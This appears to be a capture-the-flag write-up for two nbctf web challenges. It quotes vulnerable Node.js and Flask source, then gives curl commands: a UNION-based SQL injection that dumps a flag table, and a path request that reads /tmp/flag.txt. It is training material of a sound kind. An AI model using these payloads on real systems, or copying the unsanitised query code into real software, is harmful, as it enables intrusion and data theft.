




# Web

## walters_crystal_shop


### Info





## solution:

After analysing the code source we realise that the app use Sql database it creates tables: crystals and  flag that contains the flag

```javascript
db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

```

here we can see the user input it's going in the query without any sanitization so it's clear a simple sql injection:
```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

```
we have the table name and the column name and we know that we have 3 columns `(name, price, quantity)` so our payload should be:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://walters-crystal-shop.chal.nbctf.com/crystals?name=abc%27%20union%20select%20null,null,flag%20from%20flag%20--             
[{"name":null,"price":null,"quantity":"nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}"}]
```
and we got it :)


## galleria


### Info



i spent in this challenge like three hours trying to get RCE using file upload specially when i saw all ppl tryin the same



but then i decided to read the code source again 

## solution:

here the `check_file_path` function does not really filter the query `file` which we have full control of it

```python
def check_file_path(path):
    _path = Path(path)

    parts = [*Path.cwd().parts][1:]
    for part in _path.parts:
        if part == '.':
            continue
        if part == '..':
            parts.pop()
        else:
            parts.append(part)

        if len(parts) == 0:
            return False

    _path = os.path.join(os.getcwd(), path)
    _path = Path(_path)
    return _path.exists() and _path.is_file()
    
    
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```

also after checking the docker file :

`COPY flag.txt /tmp/flag.txt`

so our payload should be simple and not a file upload to get a RCE XD

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt                                                           
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```


